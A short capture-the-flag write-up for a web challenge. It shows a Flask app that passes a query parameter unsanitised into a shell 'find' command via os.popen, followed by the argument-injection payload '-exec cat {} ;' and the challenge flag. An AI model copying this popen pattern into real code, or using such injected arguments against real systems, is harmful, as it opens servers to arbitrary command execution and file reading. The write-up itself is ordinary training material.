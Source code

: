 # Find the flag

**Description**: Flag is in flag.txt<br>
**Author:  [Av4nth1ka](https://twitter.com/av4nth1ka)**<br>

**Solution**: 
This challenge is basically Arguement injection using find command. We are given with the main.py:<br>
```py
import os

from flask import Flask, request, render_template

app = Flask(__name__)

@app.get('/')
def index():
    test = request.args.get('test', None)
    if test is None:
        return render_template('index.html')

    command = f"find {test}"

    try:
        output = os.popen(command).read()

    except Exception as e:
        output = f"Error: {str(e)}"

    return render_template('index.html', output=output)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

Intended payload for flag: `flag.txt -exec cat {} ;`<br>
`http://localhost:5000/?test=flag.txt%20-exec%20cat%20{}%20;`<br>

Flag: `shaktictf{finally_you found_the_flag_hehehheh!}`%   <br>         